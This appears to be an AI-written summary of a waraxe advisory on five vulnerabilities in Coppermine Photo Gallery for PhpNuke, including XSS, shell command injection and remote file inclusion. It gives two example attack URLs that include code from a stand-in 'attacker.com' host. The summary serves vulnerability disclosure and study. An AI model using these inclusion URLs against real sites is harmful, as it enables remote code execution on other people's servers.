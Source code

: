 Based on the provided content, here's a breakdown of the vulnerabilities in Coppermine Photo Gallery for PhpNuke, as described in the waraxe advisory:

**Vulnerabilities:**

*   **A. Full path disclosure:**
    *   **Root cause:** Several scripts within the Coppermine package lack proper access protection, leading to PHP error messages that reveal the full server path to the scripts.
    *   **Weaknesses:** Lack of access control on multiple PHP scripts, resulting in verbose error messages.
    *   **Impact:** Exposes the server's file system structure, aiding attackers in planning further attacks.
    *   **Attack vector:** Direct access to unprotected PHP files.
    *   **Required attacker capabilities:** None, the scripts are accessible without authentication.

*   **B. Cross-site scripting (XSS):**
    *   **Root cause:** The `menu.inc.php` script does not sanitize the `CPG_URL` parameter, allowing an attacker to inject malicious JavaScript.
    *   **Weaknesses:** Insufficient input validation for the `CPG_URL` parameter in `menu.inc.php`.
    *  **Impact:**  Allows for stealing cookies or performing actions on behalf of the victim, bypassing cross-domain security restrictions.
    *   **Attack vector:** Malicious code injection via the `CPG_URL` parameter.
    *   **Required attacker capabilities:** Ability to craft a malicious URL.

*   **C. Arbitrary directory browsing:**
    *   **Root cause:** The `searchnew` function in the `modules.php` script does not properly validate the `startdir` parameter, allowing an attacker to navigate outside the intended directory.
    *   **Weaknesses:** Insufficient input validation for the `startdir` parameter.
    *   **Impact:** Attackers can browse the file system on the server.
    *   **Attack vector:** Manipulating the `startdir` parameter in the `modules.php` script.
    *   **Required attacker capabilities:** Admin rights to PhpNuke.

*   **D. Arbitrary shell command execution:**
    *  **Root cause:** The `picmgmtbatch.inc.php` script utilizes the `exec()` function to execute shell commands for image manipulation, using configuration parameters (`$CONFIG['impath']`, `$CONFIG['jpeg_qual']`, etc.) without proper sanitization. An attacker with admin privileges can manipulate these parameters to inject malicious shell commands.
    *   **Weaknesses:** Unsafe use of the PHP `exec()` function with unsanitized configuration parameters.
    *   **Impact:** Arbitrary command execution on the server.
    *  **Attack vector:** Injecting shell commands via configuration parameters such as  `impath` through the admin interface.
    *   **Required attacker capabilities:** Admin rights to PhpNuke.

*   **E. Remote file inclusion (RFI):**
    *   **Root cause:** Several scripts include external files using user-controlled parameters (e.g., `CPG_M_DIR` or `THEME_DIR`) without proper validation.
    *   **Weaknesses:** Lack of validation of included file paths.
    *   **Impact:** Arbitrary PHP code execution via included files.
    *   **Attack vector:** Providing a URL to a malicious file via the vulnerable parameters.
    *   **Required attacker capabilities:** Ability to host a PHP file on a remote server.

    *   **E1 - Old Version:**
        *   Vulnerable script: `init.inc.php`
        *   Vulnerable parameter: `CPG_M_DIR`
        *   Attack Example: `<http://localhost/nuke69j1/modules/coppermine/include/init.inc.php?CPG_M_DIR=http://attacker.com>`

    *   **E2 - New Version:**
        *   Vulnerable script:  `theme.php` in various themes (default, coppercop, maze).
        *   Vulnerable parameter: `THEME_DIR`
        *   Attack Example: `<http://localhost/nuke72/modules/coppermine/themes/default/theme.php?THEME_DIR=http://attacker.com>`

**Additional Notes:**

*   The advisory notes that for vulnerabilities C and D, the attacker requires admin privileges for PhpNuke. However, it is also noted that PhpNuke is known for many security bugs which can lead to admin account compromise.
*   The attacker's server hosting the included file for RFI vulnerabilities must not parse PHP.

This detailed breakdown provides a good understanding of the technical aspects of these vulnerabilities, more comprehensive than the typical brief CVE description.